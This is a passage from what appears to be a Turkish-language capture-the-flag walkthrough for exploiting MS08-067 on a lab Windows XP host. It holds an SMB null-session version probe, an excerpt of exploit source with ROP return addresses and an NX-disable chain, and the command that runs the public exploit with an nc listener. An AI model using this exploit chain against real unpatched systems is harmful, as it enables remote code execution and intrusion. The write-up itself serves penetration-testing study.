 
#### Guess Version

Exploit, Windows sürümünü ve Dil paketini bilmemi gerektiriyor:

ChatGpt'ti tarafından yazılan kodum . 

```
# MS08-067 Exploit için Versiyon Tahmin Mekanizması
import sys
from impacket import smb

target_ip = "10.10.10.4"  # Örnek IP

try:
    conn = smb.SMB('*SMBSERVER', target_ip)
    conn.login('', '')  # Boş oturum açma denemesi
    print(f"OS: {conn.get_server_os()}")
except Exception as e:
    print(f"Bağlantı hatası: {e}")
```

![Pasted image 20250205234013.png](/img/user/Pasted%20image%2020250205234013.png)

Exploit, bazı küçük kod parçalarının bellekte nerede olacağını bilmenin avantajını kullanır ve shell'e giden yolda bu bitleri kullanır. Windows'un farklı sürümleri için bu araçların adresleri farklı olacaktır. Örneğin, kaynaktan:

```
        elif (self.os == '4'):
            print 'Windows 2003 SP1 English\n'
            ret_dec = "\x8c\x56\x90\x7c"  # 0x7c 90 56 8c dec ESI, ret @SHELL32.DLL
            ret_pop = "\xf4\x7c\xa2\x7c"  # 0x 7c a2 7c f4 push ESI, pop EBP, ret @SHELL32.DLL
            jmp_esp = "\xd3\xfe\x86\x7c"  # 0x 7c 86 fe d3 jmp ESP @NTDLL.DLL
            disable_nx = "\x13\xe4\x83\x7c"  # 0x 7c 83 e4 13 NX disable @NTDLL.DLL
            jumper = disableNXjumper % (
                ret_dec * 6, ret_pop, disable_nx, jmp_esp * 2)
```

Numaralandırmama dayanarak, Windows XP olduğunu biliyorum. İlk olarak hedef 6'yı deneyeceğim, Windows XP SP3 İngilizce (NX). Eğer bu başarısız olursa, geri gelip diğerlerini deneyeceğim.

#### Run Exploit
Bir nc listener açacağım ve exploit'i çalıştıracağım:

```
root@kali# python ms08-067.py 10.10.10.4 6 445
#######################################################################
#   MS08-067 Exploit
#   This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).
#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi
#
#   Mod in 2018 by Andy Acer
#   - Added support for selecting a target port at the command line.
#   - Changed library calls to allow for establishing a NetBIOS session for SMB transport
#   - Changed shellcode handling to allow for variable length shellcode.
#######################################################################

$   This version requires the Python Impacket library version to 0_9_17 or newer.
$
$   Here's how to upgrade if necessary:
$
$   git clone --branch impacket_0_9_17 --single-branch https://github.com/CoreSecurity/impacket/
$   cd impacket
$   pip install .

```
